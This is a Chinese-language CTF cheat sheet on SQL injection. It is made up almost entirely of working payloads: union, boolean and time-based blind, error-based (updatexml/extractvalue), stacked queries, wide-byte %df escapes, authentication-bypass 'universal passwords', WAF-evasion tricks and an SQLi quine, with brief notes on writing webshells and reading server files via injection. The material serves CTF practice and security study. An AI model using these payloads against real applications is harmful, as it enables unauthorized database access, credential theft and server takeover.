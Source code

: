 ## 常见

| 考点                            |                                                                            |
| ------------------------------- | -------------------------------------------------------------------------- |
| 0.测试                          | 1' order by 1 -- [123456] 测试                                             |
| 1.联合查询                      | union select group_concat(username,0x7e,password),2,3 from...，order by... |
| [2.布尔盲注](#2布尔盲注)        | if(ascii(substr(database(),1,1))>100,1,0)                                  |
| [4.报错注入](#4报错注入)        |                                                                            |
| [5.堆叠注入](#5堆叠注入)        |                                                                            |
| [bypass](bypass_.md#sql-bypass) |

注入格式

| Column                                        | 测试 1                                                                                                                  | 测试 2 |
| --------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- | ------ |
| ?id=1''                                       | ?id='1'                                                                                                                 |        |
| $id                                           | 1''                                                                                                                     | '1'    |
| $id 结果                                      | 正常                                                                                                                    | 正常   |
| '$id'                                         | '1'''                                                                                                                   | ''1''  |
| '$id'结果                                     | 正常                                                                                                                    | 错误   |
| `select * from user where username = '$name'` | 密码是md5方式,  `-1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#`
| \`uid\` in('1'); <br> \`uid\` in($id);        | 后面会补括号 <br> `1) or updatexml(1,concat(0x7e,version(),0x7e),1`<br>`1 or updatexml(1,concat(0x7e,version(),0x7e),1` |

### 2.布尔盲注

```sql
if(ascii(substr(database(),1,1))>100,1,0)
布尔盲注不需要闭合
SELECT password from user WHERE id = ${id}
${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
```

### 4.报错注入

```sql
(updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
'or updatexml(1,concat(0x7e,user()),1)#
'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
--- 见 web_sql_00normal_04_error_inject.py
(1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
(2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
(3). 通过ExtractValue报错
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
```

### 5.堆叠注入

```sql
select * from users where id= 1;create table test like users;
1';set @t=concat('sel','ect flag from `1919810931114514`');prepare te from @t;execute te;#
```

## 常见的 SQL 注入考点 CTF-123458

```bash
3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)

6.二次注入:通过在一处输入点构造sql语句，在第二处触发
        -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
7.宽字节注入:通过数据库编码错误来绕过字符转义
        sql = 'select *from user where id=\''.$id.'\'';
        GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
        GET方式 id=1%df' union select 1,database(),3%23
        POST方式-没有url解码 username=1汉') or 1=1#
                -配合盲注完成
9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
10.sql注入提权:通过sql注 入获取服务器权限
- 读取数据 见0x10
- 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
        ()替换空格or(1)=(1) , or('1')='1'
load_file
head 注入 useragent进行报错注入
MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
        http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
        https://www.shysecurity.com/post/20140705-SQLi-Quine
        'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#
```

## Other

```sh
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

1.  在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

构造 username=admin or 1=1 和 passwd=admin or 1=1 即可

```sql
payload：?username=admin' or '1'='1&password=123' or '1'='1
替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';
```

### 万能密码

有时不能为空（过滤了空字符）

```sql
1' or 1=1 #
uname=1' or 1=1 #&passwd=any
uname=1' or '1=1'#&passwd=any
select * from user where uname = '222' and upass = '222'
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'
```

fuzz 后能用

```python
/*!union*/ 绕过union过滤
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```
